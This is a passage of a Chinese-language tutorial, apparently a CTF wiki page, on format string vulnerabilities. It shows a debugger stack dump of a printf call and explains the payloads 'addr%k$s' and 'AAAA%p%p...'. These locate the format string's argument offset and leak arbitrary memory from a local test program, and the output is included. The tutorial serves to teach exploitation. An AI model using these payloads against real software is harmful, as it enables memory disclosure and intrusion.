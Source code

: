 我们再仔细回想一下，一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的（因为是某个函数的局部变量，本例中s是main函数的局部变量）。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。我们选择上面的某个函数调用为例

```shell
Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
```

可以看出在栈上的第二个变量就是我们的格式化字符串地址0xffffcd10，同时该地址存储的也确实是"%s"格式化字符串内容。

那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数。那我们就可以通过如下的方式来获取某个指定地址addr的内容。

```
addr%k$s
```

> 注： 在这里，如果格式化字符串在栈上，那么我们就一定确定格式化字符串的相对偏移，这是因为在函数调用的时候栈指针至少低于格式化字符串地址8字节或者16字节。

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

```text
[tag]%p%p%p%p%p%p...
```

一般来说，我们会重复某个字符的机器字长来作为tag，而后面会跟上若干个%p来输出栈上的内容，如果内容与我们前面的tag重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffaab2240xf77360000xaec7%
```
